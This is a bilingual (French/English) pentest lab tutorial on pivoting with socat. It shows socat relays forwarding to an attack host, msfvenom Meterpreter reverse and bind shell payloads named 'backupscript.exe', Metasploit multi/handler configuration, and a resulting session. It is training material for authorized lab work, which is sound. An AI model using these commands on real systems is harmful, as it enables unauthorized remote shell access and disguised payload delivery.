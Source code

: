 # Socat Redirection with a Reverse Shell and Bind Shell

Socat est un outil de relais bidirectionnel qui peut créer des sockets entre deux canaux réseau indépendants sans utiliser de tunnel SSH. Il agit comme un redirigeur qui peut écouter sur une adresse et un port, puis transmettre ces données vers une autre adresse IP et un autre port. Nous pouvons démarrer l'écouteur de Metasploit en utilisant la même commande mentionnée dans la dernière section sur notre machine d'attaque, puis exécuter Socat sur le serveur Ubuntu.

#### <mark style="color:green;">Démarrage de l'écouteur Socat</mark>

```bash
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat va écouter en local sur le port 8080 et rediriger tout le trafic vers le port 80 de notre machine d'attaque (10.10.14.18). Une fois notre redirection configurée, nous pouvons créer un payload qui se connectera à notre redirection fonctionnant sur notre serveur Ubuntu. Nous devons également démarrer un écouteur sur notre machine d'attaque, car dès que Socat reçoit une connexion d'une cible, il redirige tout le trafic vers l'écouteur de notre machine d'attaque, où nous obtiendrons un shell.

#### <mark style="color:green;">Création du Payload Windows</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
{% endcode %}

Gardez à l'esprit que nous devons transférer ce payload sur l'hôte Windows. Nous pouvons utiliser certaines des techniques utilisées dans les sections précédentes pour ce faire.

#### <mark style="color:green;">Démarrage de la Console Metasploit</mark>

```bash
mrroboteLiot@htb[/htb]$ sudo msfconsole
```

#### <mark style="color:green;">Configuration et Démarrage du Multi/Handler</mark>

```bash
msf6 > use exploit/multi/handler
```

```bash
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run
```

```bash
[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

Nous pouvons tester cela en exécutant notre payload sur l'hôte Windows, et nous devrions voir une connexion réseau en provenance du serveur Ubuntu cette fois-ci.

```bash
meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

***

## <mark style="color:red;">Socat Redirection with a Bind Shell</mark>

Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.

![](https://academy.hackthebox.com/storage/modules/158/55.png)

We can create a bind shell using msfvenom with the below command.

<mark style="color:green;">**Creating the Windows Payload**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```
{% endcode %}

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

<mark style="color:green;">**Starting Socat Bind Shell Listener**</mark>

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

<mark style="color:green;">**Configuring & Starting the Bind multi/handler**</mark>

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.
